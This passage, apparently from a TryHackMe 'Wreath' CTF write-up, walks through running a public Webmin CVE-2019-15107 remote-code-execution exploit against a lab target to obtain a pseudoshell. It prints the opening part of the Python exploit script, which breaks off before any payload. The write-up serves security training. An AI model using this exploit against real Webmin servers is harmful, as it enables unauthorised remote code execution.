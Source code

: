 The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![RCE Exploit](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Wreath/wreath-8.png)

https://sensorstechforum.com/cve-2019-15107-webmin/
https://www.webmin.com/exploit.html

**_Answer The Following_**

1. **Run the exploit and obtain a pseudoshell on the target!**

- **_No Answer Needed._**

**EXPLOIT**

```python

#!/usr/bin/python3
#Webmin 1.890-1.920 RCE
#CVE-2019-15107
#Based on Metasploit Module (EDB ID: 47230)
#AG | MuirlandOracle
#11/20

#### Imports ####
import argparse, requests, sys, signal, ssl, random, string, os, socket
from prompt_toolkit import prompt
from prompt_toolkit.history import FileHistory
from urllib3.exceptions import InsecureRequestWarning


#### Globals ####
class colours():
	red = "\033[91m"
	green = "\033[92m"
	blue = "\033[34m"
	orange = "\033[33m"
	purple = "\033[35m"
	end = "\033[0m"


banner = (f"""{colours.orange}
	__        __   _               _         ____   ____ _____
	\ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|
	 \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|
	  \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___
	   \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\\____|_____|

						{colours.purple}@MuirlandOracle

		{colours.end}""")

#### Ignore Unverified SSL certs ####
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

#### Handle Signals ####
def sigHandler(sig, frame):
```